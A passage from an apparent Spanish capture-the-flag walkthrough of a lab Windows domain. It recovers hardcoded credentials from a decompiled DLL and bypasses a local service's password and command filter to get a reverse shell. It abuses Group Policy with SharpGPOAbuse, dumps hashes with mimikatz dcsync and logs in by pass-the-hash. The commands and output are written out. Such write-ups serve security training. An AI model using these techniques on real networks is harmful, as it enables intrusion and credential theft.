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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAMAAAAoDsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

SQL>
```

  

Decodeamos el contenido de `base64` y el archivo que nos queda parece es un `dll`

```
❯ cat data | base64 -d > file

❯ file file
file: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections  
```

  

Al abrir el `dll` con [dnspy](https://github.com/dnSpy/dnSpy) encontramos una función `BackupClients` la cual define `credenciales` a nivel de sistema para llamar mas adelante al archivo `clients.html`


Las `credenciales` son a nivel de sistema y el puerto `5985`, asi que nos podemos conectar con `evil-winrm` y conseguir una `shell` como el usuario `jay.teignton`

```
❯ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'  
PS C:\Users\jay.teignton\Documents> whoami
teignton\jay.teignton
PS C:\Users\jay.teignton\Documents>
```

  

En el directorio `Documents` encontramos un archivo llamado `WindowsService.exe`

```
PS C:\Users\jay.teignton\Documents> dir

    Directory: C:\Users\jay.teignton\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/7/2020  10:31 PM          11264 WindowsService.exe  

PS C:\Users\jay.teignton\Documents>
```

  

Podemos descargar el archivo `exe` para analizarlo localmente facilmente usando la funcion `download` incluida entre las herramientas que vienen con `evil-winrm`

```
PS C:\Users\jay.teignton\Documents> download .\WindowsService.exe WindowsService.exe  

Info: Downloading .\WindowsService.exe to WindowsService.exe

Info: Download successful!

PS C:\Users\jay.teignton\Documents>
```

  

Al abrir el `exe` con `dnspy` encontramos una función `Start` que parece la principal



La función inicia un `socket` en el puerto `7734`, despues comprueba que la función `CheckClientPassword` devuelva true si es asi pasa a la función `CheckClientCommand`

```
public void Start()
{
    this.IP = IPAddress.Loopback;
    this.Endpoint = new IPEndPoint(this.IP, 7734);
    try
    {
        this.Listener = new Socket(this.IP.AddressFamily, SocketType.Stream, ProtocolType.Tcp);  
        this.Listener.Bind(this.Endpoint);
        this.Listener.Listen(25);
        for (;;)
        {
            Socket handler = this.Listener.Accept();
            new Thread(delegate()
            {
                try
                {
                    string data = this.GetClientMessage(handler).Trim();
                    if (this.CheckClientPassword(handler, data))
                    {
                        data = this.GetClientMessage(handler).Trim();
                        this.CheckClientCommand(handler, data);
                    }
                }
                finally
                {
                    handler.Shutdown(SocketShutdown.Both);
                    handler.Close();
                }
            }).Start();
        }
    }
    catch (Exception)
    {
    }
    finally
    {
        this.Listener.Shutdown(SocketShutdown.Both);
    }
}
```

  

La función `CheckClientPassword` verifica que la contraseña sea igual a el resultado de `TCPServer.Password` y muestra que esta se indica usando `password=` como prefix

```
private bool CheckClientPassword(Socket handler, string data)  
{
    string[] array = data.Split(new string[]
    {
        "password="
    }, StringSplitOptions.None);
    if (array.Length != 2 || array[1] == null)
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    if (array[1] != TCPServer.Password())
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    handler.Send(this.SuccessMessage);
    return true;
}
```

  

La `contraseña` que se espera en realidad es bastante simple, consta del resultado de la `fecha` actual en el siguiente formato `yyyy-MM-dd` mas la cadena `-thisisleet`

```
private static string Password()
{
    return DateTime.Now.ToString("yyyy-MM-dd") + "-thisisleet";  
}
```

  

Podemos obtenerla usando `Get-Date` indicando el formato y agregando la `cadena`

```
PS C:\Users\jay.teignton\Documents> (Get-Date -Format "yyyy-MM-dd") + "-thisisleet"  
2023-04-19-thisisleet
PS C:\Users\jay.teignton\Documents>
```

  

La función `CheckClientCommand` solo espera un comando con el prefix `command=`

```
private bool CheckClientCommand(Socket handler, string data)  
{
    string[] array = data.Split(new string[]
    {
        "command="
    }, StringSplitOptions.None);
    if (array.Length != 2 || array[1] == null)
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    string text = array[1];
    foreach (string value in new string[]
    {
        " ",
        "Windows",
        "System32",
        "PowerShell"
    })
    {
        if (text.Contains(value))
        {
            handler.Send(this.ErrorMessage);
            return false;
        }
    }
    this.CreateClientProcess(text);
    handler.Send(this.Flag);
    return true;
}
```

  

Aprovechando la funcion `upload` subimos el `netcat.exe` para conectarnos al `7734` sin embargo para usarlo necesitaremos mejorar la shell usando [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

```
PS C:\Users\jay.teignton\Documents> upload netcat.exe

Info: Uploading netcat.exe to C:\Users\jay.teignton\Documents\netcat.exe  

Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!

PS C:\Users\jay.teignton\Documents>
```

  

Nos conectamos al puero `7734`, enviamos la contraseña que hemos obtenido antes y como comando ejecutaremos el `shell.exe` que hemos subido de antes, al hacerlo recibimos la `flag` ademas de una powershell como `andy.teignton`

```
PS C:\Users\jay.teignton\Documents> .\netcat.exe 127.0.0.1 7734 -v  
WEB.TEIGNTON.HTB [127.0.0.1] 7734 (?) open
password=2023-04-19-thisisleet
OK
command=c:\programdata\shell.exe
CONTEXT{l0l_s0c3ts_4re_fun}
PS C:\Users\jay.teignton\Documents>
```

  

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Windows PowerShell running as user andy.teignton on WEB
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\system32> whoami
teignton\andy.teignton
PS C:\Windows\system32>
```

### Key to the castle


Después de buscar formas de escalar privilegios encontramos que podemos crear un `Group Policy Object`, asi que creamos un nuevo objeto con el nombre `privesc`

```
PS C:\ProgramData> New-GPO -Name privesc -Comment "Privilege Escalation"  

DisplayName      : privesc
DomainName       : TEIGNTON.HTB
Owner            : TEIGNTON\andy.teignton
Id               : d85448d7-e996-4863-816c-ef9930ba5206 
GpoStatus        : AllSettingsEnabled
Description      : Privilege Escalation
CreationTime     : 19/04/2023 00:10:22
ModificationTime : 19/04/2023 00:10:22
UserVersion      : AD Version: 0, SysVol Version: 0     
ComputerVersion  : AD Version: 0, SysVol Version: 0     
WmiFilter        :

PS C:\ProgramData>
```

  

Ahora linkeamos el `GPO` privesc al OU `Domain Controllers` en `teignton.htb`

```
PS C:\ProgramData> New-GPLink -Name privesc -Target "OU=Domain Controllers,DC=TEIGNTON,DC=HTB" -LinkEnabled Yes  

GpoId       : d85448d7-e996-4863-816c-ef9930ba5206     
DisplayName : privesc
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=TEIGNTON,DC=HTB 
Order       : 2

PS C:\ProgramData>
```

  

Usando [SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse) podemos aprovecharnos del `GPO` vulnerable que acabamos de crear para añadir un nivel `Administrador` local, en este caso a `jay.teignton`

```
PS C:\ProgramData> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount jay.teignton --gponame privesc
[+] Domain = teignton.htb
[+] Domain Controller = WEB.TEIGNTON.HTB
[+] Distinguished Name = CN=Policies,CN=System,DC=TEIGNTON,DC=HTB
[+] SID Value of jay.teignton = S-1-5-21-3174020193-2022906219-3623556448-1103
[+] GUID of "privesc" is: {D85448D7-E996-4863-816C-EF9930BA5206}
[+] Creating file \\teignton.htb\SysVol\teignton.htb\Policies\{D85448D7-E996-4863-816C-EF9930BA5206}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf  
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
PS C:\ProgramData>
```

  

Para aplicar los cambios, `actualizamos` la configuración de las políticas de grupo

```
PS C:\ProgramData> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.  
User Policy update has completed successfully.

PS C:\ProgramData>
```

  

Iniciamos de nuevo sesión como `jay.teignton` y al mirar los `grupos` a los que pertenecemos ahora estamos tambien dentro de el grupo local `Administrators`

```
❯ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'
PS C:\Users\jay.teignton\Documents> whoami
teignton\jay.teignton
PS C:\Users\jay.teignton\Documents> Get-ADPrincipalGroupMembership -Identity "jay.teignton" | Select Name  

Name
----
Domain Users
Administrators
Remote Desktop Users
Remote Management Users

PS C:\Users\jay.teignton\Documents>
```

  

Ahora deberiamos poder entrar en el directorio de `Administrator` y leer la `flag`, ademas de un `info.txt` donde se nos felicita por haber completado la `fortaleza`

```
PS C:\Users\jay.teignton\Documents> cd C:\Users\Administrator\Documents
PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/12/2020   5:53 PM                SQL Server Management Studio  
d-----       10/12/2020   6:53 PM                Visual Studio 2017
-a----        7/15/2020   8:15 PM             34 flag.txt
-a----        7/29/2020  12:28 PM            188 info.txt

PS C:\Users\Administrator\Documents> type flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
PS C:\Users\Administrator\Documents> type info.txt
Congrats on completing the Fortress. You've got a direct line to the Recruitment Manager! Title your message - FORTRESS COMPLETED and send to recruitment@contextis.com, alongside your CV.  
PS C:\Users\Administrator\Documents>
```

  

Si queremos conseguir una `shell` como `Administrator` podemos dumpear los hashes con `mimikatz`, iniciamos subiendolo con la función `upload` de evil-winrm

```
PS C:\Users\jay.teignton\Documents> upload mimikatz.exe

Info: Uploading mimikatz.exe to C:\Users\jay.teignton\Documents\mimikatz.exe

Data: 1666740 bytes of 1666740 bytes copied

Info: Upload successful!

PS C:\Users\jay.teignton\Documents>
```

  

Ahora con `mimikatz` podemos dumpear el `hash NTLM` del usuario `Administrator`

```
PS C:\Users\jay.teignton\Documents> .\mimikatz.exe "lsadump::dcsync /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:teignton.htb /user:Administrator
[DC] 'teignton.htb' will be the domain
[DC] 'WEB.TEIGNTON.HTB' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@TEIGNTON.HTB
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 12/10/2020 14:34:20
Object Security ID   : S-1-5-21-3174020193-2022906219-3623556448-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5059c4cf183da02e2f41bb1f53d713cc

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f0a3bbc4c8a22573685ec11d8b5a76c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-K0IK59G7ILOAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 90f5c97ddad9eaf5aa247836e00b7a4c89935258c2a01ce051594cf3cb03798d  
      aes128_hmac       (4096) : 466d899b2f855f4f705cb990a427168a
      des_cbc_md5       (4096) : c451bf16c416dce0

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-K0IK59G7ILOAdministrator
    Credentials
      des_cbc_md5       : c451bf16c416dce0


mimikatz(commandline) # exit
Bye!
PS C:\Users\jay.teignton\Documents>
```

  

Ya con el `hash` podemos hacer un `passthehash` usando solo el hash `NTLM` de `Administrator` para autenticarnos y obtener una `powershell` como Administrator

```
❯ evil-winrm -i 10.13.37.12 -u Administrator -H 5059c4cf183da02e2f41bb1f53d713cc  
PS C:\Users\Administrator\Documents> whoami
teignton\administrator
PS C:\Users\Administrator\Documents> type flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
PS C:\Users\Administrator\Documents>
```

